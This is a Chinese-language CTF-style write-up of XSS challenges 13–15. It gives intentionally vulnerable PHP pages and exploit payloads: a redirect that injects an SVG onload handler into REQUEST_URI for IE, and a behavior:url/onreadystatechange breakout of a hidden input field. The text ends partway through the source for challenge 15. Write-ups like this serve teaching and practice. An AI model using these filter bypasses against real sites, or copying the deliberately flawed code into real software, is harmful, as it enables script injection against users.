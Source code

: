 # 13 REQUEST_URI #

```
<?php
header("X-XSS-Protection: 0");
echo "REQUEST_URI:".$_SERVER['REQUEST_URI'];
?>
```

还是ie下的问题，在ie下，加一次跳转就不会进行编码。

exp
```
<?php
header("Location: http://xianzhi.aliyun.com/xss13.php/<svg/onload=alert(document.domain)>");
```

# 14 HIDDEN #

```
<?php
header('X-XSS-Protection:0');
header('Content-Type:text/html;charset=utf-8');
?>
<head>
<meta http-equiv="x-ua-compatible" content="IE=10">
</head>
<body>
<form action=''>
<input type='hidden' name='token' value='<?php
  echo htmlspecialchars($_GET['token']); ?>'>
<input type='submit'>
</body>
```

这题问题很多，因为hidden属性，所以很多事件都没办法触发了，很多人都是使用了accesskey属性，通过shift+alt+x触发。

但是还有办法，使用behavior.url

作者提出的exp
```
http://ec2-13-58-146-2.us-east-2.compute.amazonaws.com/xss14.php?token=%27style=%27behavior:url(?)%27onreadystatechange=%27alert(1)  
```

ie可触发

# 15 Frame Buster #

```
<?php
header("X-XSS-Protection: 0");
$page=strtolower($_GET["page"]);
$regex="/on([a-zA-Z])+/i";
$page=str_replace("style","_",$page);
?>
<html>
<head>
<meta charset=utf-8>
</head>
<body>
<form action='xss15.php?page=<?php
if(preg_match($regex,$page))
{
echo "XSS Detected!";
```